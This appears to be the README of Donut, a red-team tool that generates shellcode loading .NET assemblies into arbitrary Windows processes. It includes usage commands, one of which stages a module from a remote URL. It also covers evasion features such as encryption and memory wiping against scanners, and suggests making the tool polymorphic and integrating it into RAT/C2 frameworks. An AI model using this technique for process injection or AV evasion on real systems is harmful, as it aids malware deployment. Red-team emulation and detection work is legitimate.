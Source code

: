 # Using Donut

Donut is a shellcode generation tool that creates x86 or x64 shellcode payloads from .NET Assemblies. This shellcode may be used to inject the Assembly into arbitrary Windows processes. Given an arbitrary .NET Assembly, parameters, and an entry point (such as Program.Main), it produces position-independent shellcode that loads it from memory. The .NET Assembly can either be staged from a URL or stageless by being embedded directly in the shellcode. Either way, the .NET Assembly is encrypted with the SPECK symmetric encryption algorithm and a randomly generated key. After the Assembly is loaded through the CLR, the original reference is randomized and freed from memory to deter memory scanners. The Assembly can either be loaded into the default Application Domain or a new one (to allow for running Assemblies in disposable AppDomains).

It can be used in several ways.

## As a Standalone Tool

Donut can be used as-is to generate shellcode from arbitrary .NET Assemblies. Both a Windows EXE and a Python script are provided for payload generation. The command-line syntax is as described below.

```

 usage: donut [options] -f <.NET assembly> | -u <URL hosting donut module>

       -f <path>            .NET assembly to embed in PIC and DLL.
       -u <URL>             HTTP server hosting the .NET assembly.
       -c <namespace.class> The assembly class name.
       -m <method>          The assembly method name.
       -p <arg1,arg2...>    Optional parameters for method, separated by comma or semi-colon.
       -a <arch>            Target architecture : 1=x86, 2=amd64(default).
 examples:

    donut -a 1 -c TestClass -m RunProcess -p notepad.exe -f loader.dll
    donut -f loader.dll -c TestClass -m RunProcess -p notepad.exe -u http://remote_server.com/modules/

```

## As a Library

donut is provided in *.dll* and *.lib* format to be used as a library. It has a simple API that is described in *api.html*. Several exported functions are provided, including ``` int CreatePayload(PDONUT_CONFIG c) ```. They all use the PDONUT_CONFIG struct as input.

## As a Template

Part of why donut was published was to provide a template for custom shellcode generators. Since all of the logic for the shellcode is defined in *payload.c*, that logic can be customized by simply changing the *payload* source code. Once the source code is changed, use the provided makefile to rebuild *payload.exe* using any of the following options

```
make x86
make x64
make debug
make clean
```

Once the new version of *payload.exe* is built, its executable code must be extracted. This can be done with *xbin.exe*. To extract the code, run the command below:

```
xbin.exe payload.exe .text
```

This will update *payload.bin* with the new machine code. This stub represents the shellcode component loads the .NET Assembly. When *donut* is used, it will combine this .bin file with the Assembly to produce the usable shellcode.

Additional features are left as exercises to the reader. I would personally recommend:

* Add environmental keying
* Make donut polymorphic by obfuscating *payload* every time shellcode is generated
* Integrate donut as a module into your favorite RAT/C2 Framework

## Disclaimers

* No, we will not update donut to counter signatures or detections by any AV.
* We are not responsible for any misuse of this software or technique. Donut is provided as a demonstration of CLR Injection through shellcode in order to provide red teamers a way to emulate adversaries and defenders a frame of reference for building analytics and mitigations. This inevitably runs the risk of malware authors and threat actors misusing it. However, we believe that the net benefit outweighs the risk. Hopefully that is correct.

# How it works

## Procedure

Donut uses the Unmanaged CLR Hosting API to load the Common Language Runtime. If necessary, the Assembly is downloaded into memory. Either way, it is decrypted. Once the CLR is loaded into the host process, an AppDomain is prepared. Unless told to do otherwise, the shellcode will use DefaultDomain. Otherwise, a new AppDomain will be created. Once the AppDomain is ready, the .NET Assembly is loaded through AppDomain.Load_3. Finally, the Entry Point specified by the user is invoked with any specified parameters.

The logic above describes how the shellcode generated by donut works. That logic is defined in *payload.exe*. To get the shellcode, *xbin.exe* extracts the compiled machine code from *.text* in *payload.exe* and saves it to *payload.bin*. *donut.exe* uses that extracted shellcode, and combines it with a Donut Instance ( a struct wrapper for the Assembly) and a Donut Module (a struct containing the config for the shellcode). The Instance and Module are referred to using offsets rather than stored on the stack. This ensures that the shellcode may be used with any injection technique without setting up the stack manually or using an API call in the CreateThread family.

Refer to MSDN for documentation on the Undocumented CLR Hosting API: https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/clr-hosting-interfaces

For a standalone example of a CLR Host, refer to Casey Smith's AssemblyLoader repo: https://github.com/caseysmithrc/AssemblyLoader

## Components

Donut contains the following elements:

* donut.c: The source code for the donut payload generator
* donut.exe: The compiled payload generator as an EXE
* donut.py: The donut payload generator as a Python script
* donut.dll, donut.lib: Donut as a library for use in other projects
* payload.c: The source code for the shellcode
* payload.exe: The compiled payload. The shellcode is extracted from this binary file.
* xbin.cpp: Source code for xbin
* xbin.exe: Extracts the useful machine code from payload.exe so that it may be used as shellcode
* encrypt.c: Provides the source code the encryption
* loader.cs, loader.dll: An example .NET Assembly. It starts a process that was specified by a command-line argument.
* clib.c: Overrides Microsoft's definition of memset because they're a PITA and don't want to let us write our own code

Additionally, there are three companion projects provided with donut:

* DonutTest: A simple C# shellcode injector to use in testing donut. The shellcode must be base64 encoded and copied in as a string. 
* ProcessManager: A Process Discovery tool that offensive operators may use to determine what to inject into and defensive operators may use to determine what is running, what properties those processes have, and whether or not they have the CLR loaded. 
* ModuleMonitor: A proof-of-concept tool that detect CLR injection as it is done by tools such as donut and Cobalt Strike's execute-assembly.

# Project plan

Current goal: Beat the other team to publication! ;-)

* Add the option to load the .NET Assembly into a new Application Domain rather than DefaultDomain
* After the Assembly is loaded into the AppDomain (but before it is run), randomize the bytes for the decrypted Assembly and free them. This is to prevent memory scanners from picking up the presence of a DLL in the incorrect part of memory.
* Create a donut.py generator that uses the same command-line parameters as donut.exe
* Clean up the code. Remove code that is not used. Ensure code is internally documented.
* Write documentation with enough detail for users to use donut as a library/API, and for them to use it as operators trying to quickly generate shellcode for one-time use. (this is mostly already done)
* Odzhan write a blog post on the technical implementation of donut and its API. TheWover write a blog post on how to use this as an operator, how it affects red team tradecraft, and potential detection mechanisms for the technique.
